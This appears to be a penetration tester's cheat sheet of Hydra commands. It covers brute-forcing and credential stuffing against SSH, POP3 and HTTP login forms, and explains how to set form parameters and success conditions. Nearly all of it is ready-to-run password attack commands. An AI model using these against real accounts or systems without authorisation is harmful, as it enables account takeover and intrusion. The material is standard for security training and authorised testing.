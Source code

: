 # Hydra

% hydra

## hydra - Crack passwords with user and password lists
```
hydra -L user.list -P password.list <service>://<ip>
```

## hydra - Crack passwords with a username and password list
```
hydra -l username -P password.list <service>://<ip>
```

## hydra - Crack passwords with a user list and password
```
hydra -L user.list -p password <service>://<ip>
```

## hydra - Credential stuffing attack
```
hydra -C <user_pass.list> ssh://<IP>
```
## hydra - Brute-force POP3
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

## hydra - http-form tips
```
# hydra http-form tips

# general structure
hydra [options] target http-post-form "path:params:condition_string"

S=... # success condition
F=... # failure condition

Example :
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials" # Failure if 'Invalid credentials' string found in response
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302" OK if response code is 302
hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard" OK if 'Dashboard' string is found in response


`params` string consists of <mark style="background: #FFB86CA6;">key-value pairs</mark>, similar to how data is encoded in a POST request. Each pair represents a field in the login form, with its corresponding value.

- `Form Parameters`: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (`^USER^` and `^PASS^`) within these parameters with values from your wordlists.
- `Additional Fields`: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the `params` string. These can have static values or dynamic placeholders if their values change with each request.
- `Success Condition`: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like `S=302` for a redirect) or the presence or absence of specific text in the server's response (e.g., `F=Invalid credentials` or `S=Welcome`).


hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
